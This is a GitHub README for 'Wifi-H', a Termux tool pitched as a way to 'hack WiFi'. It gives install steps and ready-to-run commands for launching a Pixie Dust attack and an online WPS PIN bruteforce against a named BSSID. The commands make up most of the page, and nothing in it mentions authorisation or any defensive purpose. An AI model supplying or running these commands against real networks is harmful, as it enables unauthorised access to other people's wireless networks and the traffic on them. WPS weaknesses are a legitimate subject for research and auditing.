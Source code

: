 ## Wifi-H
### Hack WIfi Using Termux! (Root Requires)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Devil-King-Monayem/Wifi-H
$ cd Wifi-H
$ chmod +x WiFi.py
$ sudo python WiFi.py --help
```

#### Example : `sudo python WiFi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python WiFi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python WiFi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python WiFi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
